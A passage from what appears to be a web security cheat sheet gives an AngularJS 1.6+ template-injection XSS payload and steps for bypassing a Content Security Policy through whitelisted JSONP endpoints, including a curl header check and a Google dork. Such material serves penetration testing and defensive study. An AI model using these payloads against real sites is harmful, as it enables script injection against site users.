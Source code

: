 **1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

**Content Security Policy (CSP) bypass via JSONP endpoints**

Grab the target's CSP:

```
curl -I http://example.com | grep 'Content-Security-Policy'
```

Either paste the CSP into https://csp-evaluator.withgoogle.com/ or just submit the target's address into the "Content Security Policy" field. The CSP Evaluator will notify you if one of the whitelisted domains has JSONP endpoints.

![](https://user-images.githubusercontent.com/18099289/32136707-a1c12510-bc12-11e7-8a80-8a22b3e94232.png)

Now we can use a Google dork to find some JSONP endpoints on the domains listed above.

```
site:example.com inurl:callback
```
